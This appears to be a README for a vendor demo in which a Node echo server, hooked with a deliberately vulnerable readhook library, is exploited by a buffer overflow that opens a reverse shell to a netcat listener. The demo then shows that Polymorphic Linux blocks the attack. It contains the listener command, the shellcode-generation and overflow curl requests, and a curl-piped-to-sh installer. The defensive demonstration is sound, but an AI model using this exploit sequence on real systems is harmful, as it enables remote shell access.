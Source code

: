 # readhook-node-echo-server
Test bed for using readhook to hook node-echo-server application.

## Running
```
docker run -d --rm --name echo -p 8080:8080 polyverse/readhook-node-echo-server
```

## Stopping
```
docker kill echo
```

## Running interactively
```
docker run -it --rm --name echo -p 8080:8080 polyverse/readhook-node-echo-server /bin/sh
node echo-server.js
```

# Demonstrate Polymorphic Linux

## 1: Setup Listener for Reverse Shell

### 1.1: Shell-1: Start a listener for the remote shell to connect to
```
nc -kl 5555
```

## 2: Start Server with Readhook

### 2.1: Shell-2: Start the container with an interactive shell
```
docker run -it --rm --name echo -p 8080:8080 polyverse/readhook-node-echo-server /bin/sh
```

### 2.2: Shell-2: Run the echo-server with readhook in front of libc
```
LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node /src/echo-server.js
```

### 2.3: Shell-3: Test that the echo-server is running as expected
```
curl localhost:8080/echo-this-line-of-text
echo-this-line-of-text
```

## 3: Generate Shell-Code

### 3.1: Shell-3: Generate the shell-code needed to "phone-home" to the listener on Shell-1
```
export shellCode=$(curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555)
```

### 3.2: Shell-3: Send the shell-code to the OVERFLOW endpoint to check that it works.
```
curl localhost:8080/$shellCode
```

### 3.3: Shell-1: Check that the overflow resulted in a remote shell
```
ls && whoami && exit
```

## 4: Install Polyverse Polymorphic Linux

### 4.1: Shell-2: Add curl and Polyverse Distros
```
apk update && apk add curl wget ca-certificates && update-ca-certificates
curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
```

### 4.2: Shell-2: Update packages with Polymorphic Linux packages
```
sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
```

### 4.3: Shell-2: Re-run the echo-server with basehook.so (only)
```
LD_PRELOAD=/tmp/basehook.so node /src/echo-server.js
```

### 4.4: Shell-3: Test the shellCode with Polymorphic Linux
```
curl localhost:8080/$shellCode
```

### 4.5: Shell 1: Confirm that nobody phoned-home to the listener

### 4.6: Shell 2: Confirm that node terminated abnormally

